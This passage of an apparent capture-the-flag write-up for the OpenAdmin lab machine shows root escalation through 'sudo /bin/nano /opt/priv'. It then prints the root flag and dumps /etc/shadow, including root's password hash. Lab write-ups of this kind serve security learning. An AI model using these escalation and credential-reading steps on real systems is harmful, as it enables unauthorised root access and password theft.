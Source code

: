 
![45586691f8d2c7f576a0bf31f8f96c8e.png](https://github.com/dumbx90/adventures/raw/master/assets/img/commons/45586691f8d2c7f576a0bf31f8f96c8e.png)



![d98ee2b80b88e336f9390d2b0cf23414.png](https://github.com/dumbx90/adventures/raw/master/assets/img/commons/d98ee2b80b88e336f9390d2b0cf23414.png)


And after save the file we become root:

```bash

joanna@openadmin:~$ sudo /bin/nano /opt/priv
joanna@openadmin:~$ sudo su -
root@openadmin:~# id
uid=0(root) gid=0(root) groups=0(root)
root@openadmin:~# cat /root/root.txt
2f907ed450b361b2c2bf4e8795d5b561
root@openadmin:~#
```


![007987a57de6b4d4c115da56bdd370fc.png](https://github.com/dumbx90/adventures/raw/master/assets/img/commons/007987a57de6b4d4c115da56bdd370fc.png)


# /etc/shadow

```bash
joanna@openadmin:~$ sudo su -
root@openadmin:~# id
uid=0(root) gid=0(root) groups=0(root)
root@openadmin:~# cat /root/root.txt
2f907ed450b361b2c2bf4e8795d5b561
root@openadmin:~#
root@openadmin:~# cat /etc/shadow
root:$6$BGk6CBPE$FoDCUgY.1pnYDkqDr4.yNm4jQqnnG7side9P6ApdQWWqLr6t1DHq/iXuNF7F0fkivSYXajUp/bK2cw/D/3ubU/:18222:0:99999:7:::
daemon:*:18113:0:99999:7:::
bin:*:18113:0:99999:7:::
sys:*:18113:0:99999:7:::
sync:*:18113:0:99999:7:::
games:*:18113:0:99999:7:::
man:*:18113:0:99999:7:::
lp:*:18113:0:99999:7:::
mail:*:18113:0:99999:7:::
news:*:18113:0:99999:7:::
uucp:*:18113:0:99999:7:::
proxy:*:18113:0:99999:7:::
www-data:*:18113:0:99999:7:::
backup:*:18113:0:99999:7:::
list:*:18113:0:99999:7:::
irc:*:18113:0:99999:7:::
gnats:*:18113:0:99999:7:::
nobody:*:18113:0:99999:7:::
systemd-network:*:18113:0:99999:7:::
systemd-resolve:*:18113:0:99999:7:::
syslog:*:18113:0:99999:7:::
messagebus:*:18113:0:99999:7:::
_apt:*:18113:0:99999:7:::
lxd:*:18113:0:99999:7:::
uuidd:*:18113:0:99999:7:::
dnsmasq:*:18113:0:99999:7:::
landscape:*:18113:0:99999:7:::
pollinate:*:18113:0:99999:7:::
sshd:*:18221:0:99999:7:::
```